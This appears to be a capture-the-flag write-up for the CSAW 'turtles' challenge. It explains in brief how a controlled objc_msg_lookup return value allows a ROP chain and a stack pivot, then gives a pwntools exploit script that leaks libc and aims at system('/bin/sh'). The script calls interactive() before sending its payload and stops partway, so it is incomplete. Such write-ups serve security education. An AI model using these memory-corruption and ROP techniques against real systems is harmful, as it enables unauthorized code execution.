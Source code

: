 **Solution** (by [Mem2019](https://github.com/Mem2019))

After reversing function `objc_msg_lookup`, we found that if we satisfy some conditions, we can manipulate the return value, which will be called, and then we can do ROP, because we can control the buffer on stack. What I did is to switch the stack to heap to do further exploitation.

Firstly, leak the `libc` address and return to main function, then do the same thing again to execute `system("/bin/sh")`

exp

```python
from pwn import *

g_local=False
context.log_level='debug'

e = ELF("./libc-2.19.so")
p = ELF("./turtles")
if g_local:
	sh = remote("192.168.106.151", 9999)#env={'LD_PRELOAD':'./libc.so.6'}
else:
	sh = remote("pwn.chal.csaw.io", 9003)
	#ONE_GADGET_OFF = 0x4557a

LEAVE_RET = 0x400b82
POP_RDI_RET = 0x400d43
#rop = 'A' * 0x80
rop = p64(POP_RDI_RET)
rop += p64(p.got["printf"])
rop += p64(p.plt["printf"])
rop += p64(0x400B84) #main

sh.recvuntil("Here is a Turtle: 0x")
leak = sh.recvuntil("\n")
obj_addr = int(leak, 16)

rop_pivot = p64(0x400ac0) #pop rbp ret
rop_pivot += p64(obj_addr + 8 + 0x20 + 0x10 + 0x30)
rop_pivot += p64(LEAVE_RET) + p64(0)

fake_turtle = p64(obj_addr + 8 + 0x20 - 0x40)
fake_turtle += rop_pivot
# different when dynamic
# fake_turtle += p64(0x601400) + p64(0x601328)
# fake_turtle += p64(0x601321) + p64(0)
# fake_turtle += p64(1) + p64(8)
# fake_turtle += p64(0) + p64(obj_addr + 8 + 0x20 + 0x80)
# fake_turtle += 8 * p64(0)
# #------------------
# fake_turtle += p64(0) + p64(1)
# fake_turtle += p64(0x601331) + p64(0x601349)
# fake_turtle += p64(0x400d3c) #pop 5 ret
# fake_turtle += 3 * p64(0)

fake_turtle += p64(obj_addr + 8 + 0x20 + 0x10) + p64(0)
#----------------
fake_turtle += p64(0) + p64(obj_addr + 8 + 0x20 + 0x10 + 0x10) #pop 5 ret
fake_turtle += p64(0x400d3c) + p64(0) * 3 #pop 5 ret
fake_turtle += 'a' * 8 + rop
sh.interactive()
sh.send(fake_turtle)
libc_addr = u64(sh.recvuntil("\x7f") + "\x00\x00") - e.symbols["printf"]
print hex(libc_addr)

sh.recvuntil("Here is a Turtle: 0x")
```
